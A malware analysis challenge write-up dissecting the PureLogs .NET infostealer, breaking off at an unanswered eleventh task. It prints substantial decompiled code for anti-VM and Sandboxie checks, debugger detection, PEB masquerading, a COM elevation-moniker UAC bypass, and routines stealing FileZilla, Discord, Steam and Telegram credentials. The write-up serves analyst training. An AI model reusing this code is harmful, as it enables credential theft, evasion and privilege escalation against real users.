


import Callout from '@/components/Callout.astro'
import { Icon } from 'astro-icon/components'

## Scenario

As a malware analyst at ThreatScope Inc., you’ve been contacted by the internal SOC team regarding a potential compromise. Last week, the SOC flagged unusual outbound traffic from a user workstation — large bursts of encrypted data being sent to an unknown IP. Upon checking the system, the user admitted to downloading a free “PDF editor” from an unknown Discord server. The binary they ran was named PDFEditorPro.exe. Your task is to analyze the sample, determine its capabilities, and uncover what information it attempts to steal and how it communicates with its operator.

## Analysis Process

This is a **real type of malware**, and there have been many analyses of it. Sample Hash (SHA-256):

```shell
7505E02F9E72CE781892C01AC7638A8FAC011F39C020CDA61E2EADA9EEE1C31D
```

Analysis Challenge: https://malops.io/challenges/10

### Task 1: PureLogs is obfuscated and packed to hinder static analysis. Which commercial .NET packer is used to protect the PureLogs binary?

To find out which **commercial .NET packer** is being used to protect the PureLogs binary, simply load the malware into the **Detect It Easy** tool. The output will be as follows:

```shell
...
Language: MSIL/C#
Library: .NET Framework(v4.7.2, CLR v4.0.30319)
Protector: .NET Reactor(6.X)[Control Flow]
...
```

The malware is a **.NET (C#)** program and it has been obfuscated by **.NET Reactor 6.x**. We can use the [.NET Reactor Slayer](https://github.com/SychicBoy/NETReactorSlayer/releases/tag/v6.4.0.0) tool for deobufuscation, making the code easier to read and analyze.

<div class="mx-auto"></div>

### Task 2: What is the name of the mutex created by PureLogs?

The malware deploys mutexes (mutually exclusive objects) to ensure only one instance runs on the infected system. This prevents resource conflicts and reduces the chance of detection through unusual system behavior.

In `class13`, we have a function named `smethod_3()` as follows:

```csharp
public static bool smethod_3()
{
    bool result;
    Class13.mutex_0 = new Mutex(false, GClass4.string_3, ref result);
    return result;
}
```

This function creates a **Mutex** with the name stored in `GClass4.string_3` as follows:

```csharp
public static string string_3 = "FQBnanyetMxSRRO";
```

### Task 3: PureLogs includes several anti-analysis checks before proceeding with execution. One of them specifically targets a well-known sandboxing tool. What process name does PureLogs check for to detect this sandbox?

In the `class3`, we can see that there are many functions used for **anti-sandboxing** and **anti-VM**. First, let's talk about **anti-VM**:

```csharp
public static bool smethod_3()
{
List<string> list = new List<string>
{
    "virtual",
    "vmbox",
    "vmware",
    "virtualbox",
    "box",
    "thinapp",
    "VMXh",
    "innotek gmbh",
    "tpvcgateway",
    "tpautoconnsvc",
    "vbox",
    "kvm",
    "red hat",
    "xen",
    "hyper-v",
    "qemu",
    "virtualpc",
    "parallels",
    "fusion",
    "proxmox",
    "esxi",
    "vsphere",
    "hypervisor"
};
bool result;
using (List<string>.Enumerator enumerator = Class3.smethod_4().GetEnumerator())
{
    if (!enumerator.MoveNext())
    {
        return false;
    }
    string item = enumerator.Current;
    result = list.Contains(item);
}
return result;
}


private static List<string> smethod_4()
{
    List<string> list = new List<string>();
    try
    {
        ManagementObject managementObject = new ManagementObjectSearcher("root\\CIMV2", "SELECT * FROM Win32_ComputerSystem").Get().OfType<ManagementObject>().Where(new Func<ManagementObject, bool>(Class3.<>c.<>c_0.method_0)).FirstOrDefault<ManagementObject>();
        List<string> list2 = list;
        object obj = managementObject["Manufacturer"];
        list2.Add((obj != null) ? obj.ToString().ToLower() : null);
        List<string> list3 = list;
        object obj2 = managementObject["Model"];
        list3.Add((obj2 != null) ? obj2.ToString().ToLower() : null);
    }
    catch
    {
    }
    return list;
}
```

In the `smethod_4()` function, it uses a **WMI query** to retrieve information about the running machine, then compares it with the list of keywords - if there is a match, it `returns true`.
With **anti-sandbox**, it's as follows:

```csharp
public static bool smethod_1()
    {
        return Process.GetProcessesByName("SbieCtrl").Length != 0 & Class3.GetModuleHandle("SbieDll.dll") != IntPtr.Zero;
    }
```

It checks if `SbieCtrl.exe` is running and if `SbieDll.dll` has been loaded. If so, it stops immediately. So the sandbox tool here is **Sandboxie**.

### Task 4: PureLogs avoids external analysis by querying a debugger-related state via a process handle. What Windows API function is used for this check?

Also in `class3`, pay attention to the following code:

```csharp
[DllImport("kernel32.dll", ExactSpelling = true, SetLastError = true)]
public static extern bool CheckRemoteDebuggerPresent(IntPtr intptr_0, ref bool bool_0);

private static bool smethod_2()
{
    bool result;
    try
    {
        bool flag = false;
        Class3.CheckRemoteDebuggerPresent(Process.GetCurrentProcess().Handle, ref flag);
        result = flag;
    }
    catch
    {
        result = false;
    }
    return result;
}
```

The code imports `kernel32.dll` and uses the `CheckRemoteDebuggerPresent` API function to check if a process is currently **being debugged**. You can read more about function API [here](https://learn.microsoft.com/en-us/windows/win32/api/debugapi/nf-debugapi-checkremotedebuggerpresent).

### Task 5: PureLogs checks a specific registry key to know if it has already run on the system before. What is the full path of that registry key?

The malware prevents multiple instances of a program from running simultaneously using the **Windows Registry** as a lock mechanism. Look at the code in `class13` as follows:

<div class="mx-auto"></div>

First, it checks if the configuration setting in `GClass4.string_18` is enabled, and if so, searches for a specific registry key in `HKEY_CURRENT_USER\Software\` with the name stored in `GClass4.string_19`.

**Registry markers** are only created when **Registry-check** is enabled, and this is the first time it's run and has passed `Class13.smethod_0()`.

Checking the value in the variable `GClass4.string_19` will give us the answer.

```csharp
public static string string_19 = "IqswyHgVpagFHxu";
```

> HKEY_CURRENT_USER\Software\IqswyHgVpagFHxu

### Task 6: PureLogs modifies its process name and command-line to appear as a legitimate Windows process. What process name does it use to masquerade as a trusted system process?

Also within `class13`, we have the following code:

```csharp
if (!Class13.smethod_0())
{
    Class12.smethod_4("C:\\Windows\\explorer.exe");
    Class13.smethod_2();
    Environment.Exit(0);
}
```

It calls the `smethod_4` function with the parameter being the path of a **legitimate process**, delving deeper into the analysis of `smethod_4`:

```csharp
public static bool smethod_4(string string_0)
{
    int id = Process.GetCurrentProcess().Id;
    IntPtr intptr_ = Class12.OpenProcess((Class12.Enum1)1080U, false, id);
    Class12.Struct4 @struct = default(Class12.Struct4);
    IntPtr intPtr = Class12.smethod_2(@struct);
    int num = 0;
    if (Class12.NtQueryInformationProcess(intptr_, 0, intPtr, Marshal.SizeOf<Class12.Struct4>(@struct), ref num) != 0)
    {
        return false;
    }
    @struct = Class12.smethod_0<Class12.Struct4>(intPtr);
    Console.WriteLine("[+] Process ID is: {0}", @struct.uintptr_0);
    IntPtr zero = IntPtr.Zero;
    Class12.Struct6 struct2 = default(Class12.Struct6);
    IntPtr intPtr2 = Class12.smethod_2(struct2);
    if (!Class12.ReadProcessMemory(intptr_, @struct.intptr_1, intPtr2, Marshal.SizeOf<Class12.Struct6>(struct2), out zero))
    {
        return false;
    }
    struct2 = Class12.smethod_0<Class12.Struct6>(intPtr2);
    Class12.Struct7 struct3 = default(Class12.Struct7);
    IntPtr intPtr3 = Class12.smethod_2(struct3);
    if (!Class12.ReadProcessMemory(intptr_, struct2.intptr_2, intPtr3, Marshal.SizeOf<Class12.Struct7>(struct3), out zero))
    {
        return false;
    }
    struct3 = Class12.smethod_0<Class12.Struct7>(intPtr3);
    Class12.RtlEnterCriticalSection(struct2.intptr_6);
    IntPtr zero2 = IntPtr.Zero;
    IntPtr zero3 = IntPtr.Zero;
    zero2 = new IntPtr(struct2.intptr_3.ToInt64() + 96L);
    zero3 = new IntPtr(struct2.intptr_3.ToInt64() + 112L);
    if (!Class12.smethod_3(intptr_, zero2, "ImagePathName", string_0))
    {
        return false;
    }
    if (Class12.smethod_3(intptr_, zero3, "CommandLine", string_0))
    {
        StringBuilder stringBuilder = new StringBuilder(255);
        Class12.GetModuleFileName(IntPtr.Zero, stringBuilder, stringBuilder.Capacity);
        string a = stringBuilder.ToString();
        IntPtr intptr_2 = ((Class12.Struct7)Marshal.PtrToStructure(struct2.intptr_2, typeof(Class12.Struct7))).struct3_0.intptr_0;
        IntPtr intptr_3 = struct3.struct3_0.intptr_0;
        IntPtr zero4;
        IntPtr zero5;
        for (;;)
        {
            Class12.Struct8 struct4 = (Class12.Struct8)Marshal.PtrToStructure(intptr_3, typeof(Class12.Struct8));
            zero4 = IntPtr.Zero;
            zero5 = IntPtr.Zero;
            zero4 = new IntPtr(intptr_3.ToInt64() + 72L);
            zero5 = new IntPtr(intptr_3.ToInt64() + 88L);
            string b = struct4.struct2_0.ToString();
            if (a == b)
            {
                break;
            }
            intptr_3 = struct4.struct3_0.intptr_0;
            if (!(intptr_3 != intptr_2))
            {
                goto IL_289;
            }
        }
        if (!Class12.smethod_3(intptr_, zero4, "FullDllName", string_0))
        {
            return false;
        }
        if (!Class12.smethod_3(intptr_, zero5, "BaseDllName", string_0))
        {
            return false;
        }
        IL_289:
        Class12.RtlLeaveCriticalSection(struct2.intptr_6);
        Class12.CloseHandle(intptr_);
        return true;
    }
    return false;
}
```

First, it calls [GetCurrentProcess](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-getcurrentprocess) to get the current process's pid, and then calls [OpenProcess](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess) to open its own process with `1080` privileges (`0x438`).

Then call [NtQueryInformationProcess](https://learn.microsoft.com/en-us/windows/win32/api/winternl/nf-winternl-ntqueryinformationprocess) to get the [**PEB**](https://learn.microsoft.com/en-us/windows/win32/api/winternl/ns-winternl-peb).

```csharp
NtQueryInformationProcess(
    hProcess,
    0,                  // ProcessBasicInformation
    pStruct,
    sizeof,
    ref retLen
)
```

Continue calling `ReadProcessMemory` to read **PEB** from memory and read `LoaderData` (`PEB_LDR_DATA`). Next, calculate the addresses of `ImagePathName` and `CommandLine` using hardcode offset.

```csharp
IntPtr pImagePath = new IntPtr(peb.intptr_3.ToInt64() + 96L);
IntPtr pCmdLine   = new IntPtr(peb.intptr_3.ToInt64() + 112L);
```

Call `smethod_3` to overwrite the **ImagePathName** and **CommandLine** of the process with string_0 (i.e., `C:\\Windows\\explorer.exe`).

It also calls [GetModuleFileName](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getmodulefilenamea) to find the **process's main module entry** in the loader list and rename it to the legitimate process.

This technique is a type of **Defense Evasion** and its name is **PEB Masquerading**. You can read more about it [here](https://www.ired.team/offensive-security/defense-evasion/masquerading-processes-in-userland-through-_peb#execution).

### Task 7: What WMI class does PureLogs query to retrieve the system’s manufacturer and model?

We have already analyzed this question in previous tasks. However, we will clarify some concepts below:

<Callout title="What is WMI?" variant="note">
  **WMI (Windows Management Instrumentation)** is the Windows "management
  system" that allows programs to query system information and manage the
  computer, such as Manufacturer, Model, CPU, RAM, etc.
</Callout>

<Callout title="What is ManagementObjectSearcher Class?" variant="note">
  **ManagementObjectSearcher** is a .NET class (namespace System.Management)
  used to query WMI on Windows.
</Callout>

```csharp
public static bool smethod_3()
{
List<string> list = new List<string>
{
    "virtual",
    "vmbox",
    "vmware",
    "virtualbox",
    "box",
    "thinapp",
    "VMXh",
    "innotek gmbh",
    "tpvcgateway",
    "tpautoconnsvc",
    "vbox",
    "kvm",
    "red hat",
    "xen",
    "hyper-v",
    "qemu",
    "virtualpc",
    "parallels",
    "fusion",
    "proxmox",
    "esxi",
    "vsphere",
    "hypervisor"
};
bool result;
using (List<string>.Enumerator enumerator = Class3.smethod_4().GetEnumerator())
{
    if (!enumerator.MoveNext())
    {
        return false;
    }
    string item = enumerator.Current;
    result = list.Contains(item);
}
return result;
}


private static List<string> smethod_4()
{
    List<string> list = new List<string>();
    try
    {
        ManagementObject managementObject = new ManagementObjectSearcher("root\\CIMV2", "SELECT * FROM Win32_ComputerSystem").Get().OfType<ManagementObject>().Where(new Func<ManagementObject, bool>(Class3.<>c.<>c_0.method_0)).FirstOrDefault<ManagementObject>();
        List<string> list2 = list;
        object obj = managementObject["Manufacturer"];
        list2.Add((obj != null) ? obj.ToString().ToLower() : null);
        List<string> list3 = list;
        object obj2 = managementObject["Model"];
        list3.Add((obj2 != null) ? obj2.ToString().ToLower() : null);
    }
    catch
    {
    }
    return list;
}
```

Therefore, the final answer is: `Win32_ComputerSystem`.

### Task 8: PureLogs uses a trick to bypass the "Run as Administrator" (UAC) prompt by starting a special COM object. What exact string does it add before the COM CLSID to request an elevated instance?

First, let's clarify some concepts:

<Callout title="What is UAC?" variant="note">
UAC stands for **User Account Control in Windows**.
It's a mechanism that prevents programs from running with administrator privileges without your permission, thereby reducing the risk of malware.

</Callout>

In `class13` and within the function `smethod_1`:

```csharp
public static object smethod_1(Guid guid_0, Guid guid_1)
{
    string str = guid_0.ToString("B");
    string string_ = "Elevation:Administrator!new:" + str;
    Class13.Struct9 structure = default(Class13.Struct9);
    structure.uint_0 = (uint)Marshal.SizeOf<Class13.Struct9>(structure);
    structure.intptr_0 = IntPtr.Zero;
    structure.uint_5 = 4U;
    return Class13.CoGetObject(string_, ref structure, guid_1);
}
```

It creates a **COM object** with **Administrator** privileges via the **elevation moniker** and retrieves the desired **interface**.

<Callout title="What is COM?" variant="note">
  COM stands for **Component Object Model** – a Windows “component system” that
  allows a program to call the functionality of another component (which may be
  written in a different language and run in a different process) in a
  standardized way.

COM uses **GUIDs**:

- **CLSID**: ID of the COM class (which object it creates)
- **IID**: ID of the interface (which "function set" of that object you want to use)

</Callout>

<Callout title="What is Elevation Moniker?" variant="note">
  **Elevation Moniker** is a special COM moniker syntax on Windows, used to
  request the system to create a COM object with elevated privileges — usually
  Administrator privileges — through the UAC mechanism.
</Callout>

We see that function `smethod_1` is called in `smethod_2` as follows:

```csharp
public static void smethod_2()
{
    if (Convert.ToBoolean(GClass4.string_0) && ClassAntiMalwareAnalysis.anti_VM())
    {
        Environment.Exit(0);
        return;
    }
    if (Convert.ToBoolean(GClass4.string_2) && GClass2.smethod_0())
    {
        Environment.Exit(0);
        return;
    }
    Guid guid_ = new Guid("3E5FC7F9-9A51-4367-9063-A120244FBEC7");
    Guid guid_2 = new Guid("6EDD6D74-C007-4E75-B76A-E5740995E24C");
    Class13.Interface0 @interface = (Class13.Interface0)Class13.smethod_1(guid_, guid_2);
    @interface.ShellExec(Assembly.GetExecutingAssembly().Location, null, null, 0UL, 5UL);
    Marshal.ReleaseComObject(@interface);
}
```

The purpose of the first two `if` blocks is to check the environment and then exit. Next are the following two **GUIDs**:

```csharp
Guid guid_  = new Guid("3E5FC7F9-9A51-4367-9063-A120244FBEC7");  // CMSTPLUA
Guid guid_2 = new Guid("6EDD6D74-C007-4E75-B76A-E5740995E24C");  // sICMLuaUtil
```

With CLSID here, it would become:

```shell
Elevation:Administrator!new:{3E5FC7F9-9A51-4367-9063-A120244FBEC7}
```

Then call `ShellExec` to run itself again with **higher administrative privileges**.

```csharp
@interface.ShellExec(Assembly.GetExecutingAssembly().Location, null, null, 0UL, 5UL);
```

> `ShellExec` is a method in the `ICMLuaUtil` interface.

It doesn't directly elevate the current process. Instead, it borrows an existing Windows COM component to run elevated and perform the task requiring higher privileges (in this case: re-running itself).
Therefore, the answer would be `Elevation:Administrator!new:`.

### Task 9: PureLogs uses COM objects to silently bypass User Account Control (UAC) and relaunch itself with elevated privileges. What ATT&CK technique does this behavior map to?

As we analyzed in the previous task, this behavior directly maps to ATT&CK: [**T1548.002 – Abuse Elevation Control Mechanism: Bypass User Account Control (UAC)**](https://attack.mitre.org/techniques/T1548/002) .

### Task 10: What regex pattern does PureLogs use to find Steam session tokens?

In the code of `class13`, we see the following section:

```csharp
if (Convert.ToBoolean(GClass4.string_6) || Convert.ToBoolean(GClass4.string_4) || Convert.ToBoolean(GClass4.string_5) || Convert.ToBoolean(GClass4.string_7))
{
    try
    {
        Class13.dictionary_0.Add("Apps", Convert.ToBase64String(Class5.smethod_0()));
    }
    catch
    {
    }
}
```

If any **Apps module** is enabled, it calls `Class5.smethod_0()` to retrieve the data blob, encode it in **Base64**, and insert it into `Class13.dictionary_0["Apps"]`.

```csharp
internal static byte[] smethod_0()
{
    List<Action> list = new List<Action>();
    if (Convert.ToBoolean(GClass4.string_6))
    {
        list.Add(new Action(Class5.smethod_1));
    }
    if (Convert.ToBoolean(GClass4.string_4))
    {
        list.Add(new Action(Class5.smethod_4));
    }
    if (Convert.ToBoolean(GClass4.string_5))
    {
        list.Add(new Action(Class5.smethod_3));
    }
    if (Convert.ToBoolean(GClass4.string_7))
    {
        list.Add(new Action(Class5.smethod_2));
    }
    ParallelOptions parallelOptions = new ParallelOptions
    {
        MaxDegreeOfParallelism = list.Count
    };
    Parallel.ForEach<Action>(list, parallelOptions, new Action<Action>(Class5.<>c.<>c_0.method_0));
    Dictionary<string, byte[]> dictionary = new Dictionary<string, byte[]>();
    if (Class5.byte_0 != null)
    {
        dictionary.Add("FileZilla", Class5.byte_0);
    }
    if (Class5.byte_1 != null)
    {
        dictionary.Add("Telegram", Class5.byte_1);
    }
    if (Class5.byte_2 != null)
    {
        dictionary.Add("Steam", Class5.byte_2);
    }
    if (Class5.dictionary_0.Count != 0)
    {
        dictionary.Add("Discord", Class14.smethod_8(Class5.dictionary_0));
    }
    if (Class5.byte_0 == null && Class5.byte_1 == null && Class5.byte_2 == null && Class5.dictionary_0 == null)
    {
        return null;
    }
    return Class14.smethod_8(dictionary);
}
```

It selects which modules to run based on the `GClass4.string_*` configuration flags. Then run those modules in **parallel** to collect data.

```csharp
ParallelOptions parallelOptions = new ParallelOptions
{
    MaxDegreeOfParallelism = list.Count
};
Parallel.ForEach(list, parallelOptions, Class5.<>c.<>c_0.method_0);
```

Group the results into the dictionary by application name.

```csharp
Dictionary<string, byte[]> dictionary = new Dictionary<string, byte[]>();

if (Class5.byte_0 != null) dictionary.Add("FileZilla", Class5.byte_0);
if (Class5.byte_1 != null) dictionary.Add("Telegram", Class5.byte_1);
if (Class5.byte_2 != null) dictionary.Add("Steam", Class5.byte_2);

if (Class5.dictionary_0.Count != 0)
{
    dictionary.Add("Discord", Class14.smethod_8(Class5.dictionary_0));
}
```

Let's delve into the functions that carry out the data theft.

```csharp title="FileZilla"

internal static void smethod_1()
{
    try
    {
        string text = Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData) + "\\FileZilla\\recentservers.xml";
        if (File.Exists(text))
        {
            Class5.byte_0 = Class14.smethod_10(text);
        }
    }
    catch
    {
    }
}
```

> **FileZilla (FTP client)**: Extracts server credentials from `recentservers.xml` configuration file

```csharp title="Discord"

internal static void smethod_2()
{
    string string_ = Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData) + "\\discord";
    string path = Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData) + "\\discord\\Local Storage\\leveldb";
    if (Directory.Exists(path))
    {
        foreach (string string_2 in Directory.GetFiles(path, "*.ldb"))
        {
            try
            {
                Match match = Regex.Match(Encoding.UTF8.GetString(Class14.smethod_10(string_2)), "dQw4w9WgXcQ:[^\"]*");
                if (match.Success)
                {
                    Class5.dictionary_0.Add("EncryptToken", Convert.FromBase64String(match.Groups[0].Value.Split(new char[]
                    {
                        ':'
                    })[1]));
                    break;
                }
            }
            catch
            {
            }
        }
        try
        {
            Class5.dictionary_0.Add("MasterKey", Class7.smethod_19(string_));
        }
        catch
        {
        }
    }
}
```

> Discord: It attempts to obtain the encrypted token from `LevelDB` and the `master key` (decryption key) to later decrypt the token.

```csharp Title="Steam"
internal static void smethod_4()
{
    try
    {
        Process process = Process.GetProcessesByName("steam").FirstOrDefault<Process>();
        if (process != null)
        {
            IntPtr intPtr = Class5.OpenProcess(16, false, process.Id);
            if (!(intPtr == IntPtr.Zero))
            {
                using (Class5.Class6 @class = new Class5.Class6(intPtr))
                {
                    IntPtr intPtr2 = IntPtr.Zero;
                    IntPtr intPtr3 = new IntPtr(int.MaxValue);
                    byte[] array = new byte[4096];
                    Regex regex = new Regex("[A-Za-z0-9-_]{16,}\\.[A-Za-z0-9-_]{40,}\\.[A-Za-z0-9-_]{40,}");
                    while (intPtr2.ToInt64() < intPtr3.ToInt64())
                    {
                        int count;
                        if (Class5.ReadProcessMemory(@class.Handle, intPtr2, array, array.Length, out count))
                        {
                            string @string = Encoding.ASCII.GetString(array, 0, count);
                            Match match = regex.Match(@string);
                            if (match.Success)
                            {
                                Class5.byte_2 = Encoding.UTF8.GetBytes(match.Value);
                                break;
                            }
                        }
                        intPtr2 = IntPtr.Add(intPtr2, array.Length);
                    }
                }
            }
            else
            {
                Class5.byte_2 = null;
            }
        }
        else
        {
            Class5.byte_2 = null;
        }
    }
    catch
    {
    }
}
```

> Steam: Harvests account credentials and session information

```csharp Title="Telegram"
internal static void smethod_3()
{
    string text = null;
    RegistryKey registryKey = Registry.CurrentUser.OpenSubKey("Software\\Classes\\tdesktop.tg\\DefaultIcon");
    if (registryKey != null)
    {
        try
        {
            string text2 = (string)registryKey.GetValue(null);
            registryKey.Close();
            if (!string.IsNullOrEmpty(text2))
            {
                text2 = text2.Remove(text2.LastIndexOf('\\') + 1);
                text = text2.Replace('"', ' ') + "tdata";
            }
        }
        catch
        {
        }
    }
    if (text == null)
    {
        try
        {
            RegistryKey registryKey2 = Registry.CurrentUser.OpenSubKey("Software\\Classes\\tg\\DefaultIcon");
            if (registryKey2 != null)
            {
                string text3 = (string)registryKey2.GetValue(null);
                registryKey2.Close();
                if (!string.IsNullOrEmpty(text3))
                {
                    text3 = text3.Remove(text3.LastIndexOf('\\') + 1);
                    text = text3.Replace('"', ' ') + "tdata";
                }
            }
        }
        catch
        {
        }
    }
    if (text == null)
    {
        try
        {
            Process[] processesByName = Process.GetProcessesByName("telegram");
            if (processesByName.Length != 0)
            {
                text = Path.GetDirectoryName(processesByName[0].MainModule.FileName) + "\\tdata";
            }
        }
        catch
        {
        }
    }
    if (text != null && Directory.Exists(text))
    {
        using (MemoryStream memoryStream = new MemoryStream())
        {
            using (ZipArchive zipArchive = new ZipArchive(memoryStream, ZipArchiveMode.Create, true))
            {
                foreach (string text4 in Directory.GetFiles(text, "*", SearchOption.AllDirectories))
                {
                    try
                    {
                        string entryName = text4.Substring(text.Length).Trim(new char[]
                        {
                            Path.DirectorySeparatorChar
                        });
                        FileInfo fileInfo = new FileInfo(text4);
                        string name = fileInfo.Name;
                        if (fileInfo.Length <= 5120L)
                        {
                            if (!name.EndsWith("s"))
                            {
                                if (name.StartsWith("usertag") || name.StartsWith("settings") || name.StartsWith("key_data"))
                                {
                                    ZipArchiveEntry zipArchiveEntry = zipArchive.CreateEntry(entryName, CompressionLevel.Optimal);
                                    using (FileStream fileStream = new FileStream(text4, FileMode.Open, FileAccess.Read))
                                    {
                                        using (Stream stream = zipArchiveEntry.Open())
                                        {
                                            fileStream.CopyTo(stream);
                                        }
                                    }
                                }
                            }
                            else
                            {
                                ZipArchiveEntry zipArchiveEntry2 = zipArchive.CreateEntry(entryName, CompressionLevel.Optimal);
                                using (FileStream fileStream2 = new FileStream(text4, FileMode.Open, FileAccess.Read))
                                {
                                    using (Stream stream2 = zipArchiveEntry2.Open())
                                    {
                                        fileStream2.CopyTo(stream2);
                                    }
                                }
                            }
                        }
                    }
                    catch
                    {
                    }
                }
            }
            Class5.byte_1 = memoryStream.ToArray();
        }
    }
}
```

> Telegram: It attempts to locate Telegram's tdata folder on the computer, then filters out some small, important files and compresses (zips) them into RAM.

### Task 11: PureLogs adds a unique tag to the stolen data before sending it to the attacker. What is the exact string it adds to identify this specific build of the malware?
